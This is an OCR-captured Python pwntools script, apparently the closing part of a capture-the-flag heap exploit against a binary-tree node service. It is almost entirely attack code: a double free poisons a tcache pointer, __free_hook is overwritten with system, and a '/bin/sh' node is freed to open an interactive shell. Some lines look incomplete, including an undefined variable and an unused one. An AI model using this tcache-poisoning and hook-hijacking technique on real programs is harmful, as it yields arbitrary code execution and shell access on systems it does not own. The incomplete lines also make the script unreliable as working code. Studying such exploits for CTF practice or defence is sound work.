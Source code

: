 ```python
    log.success("\t    system @ %s" % (hex(system)))
    assert libc & 0xfff == 0

    log.info("Corrupting a tcache->next pointer:")

    # Just create some nodes to clear the tcache bins
    j = 1000
    for _ in range(100):
        create_node(s)

    m1_addr = heap + 14800
    idx_for_m1_addr = (0x16e0 / 8)
    idx_for_nulls = idx_for_m1_addr + 1

    # This node is used to keep the pointer to m1 and a pointer to a 'null' node (aka no parent, left or right)
    create_node(s, m1_addr, pointer_to_nulls)

    # Create m1, the node we will want to free twice
    m1 = create_node(s)

    # Free m1, the first time
    del_node(s, m1)

    # Select m1's addr and free it again
    select_node(s, idx_for_m1_addr)
    del_node(s, 0)

    # m2 will get the same addr as m1.
    # Corrupt: m1->next == `__free_hook`
    m2 = create_node(s, free_hook, 0)

    select_node(s, idx_for_nulls)
    m3 = create_node(s)

    # m4 will get the addr of `__free_hook`. Write `system` there!
    m4 = create_node(s, system, 0)

    # Creats a node where the starts with "/bin/sh\x00"
    create_node(s, u64("/bin/sh\x00"), 0)

    # Adding a second node with the same val will fail and result in `free(node_2)`
    # We made `__free_hook` point to system and so we get `system("/bin/sh\x00")`
    create_node(s, u64("/bin/sh\x00"), 0)

    # ==========
    # Got a shell!
    # ==========
    s.interactive()

go()
```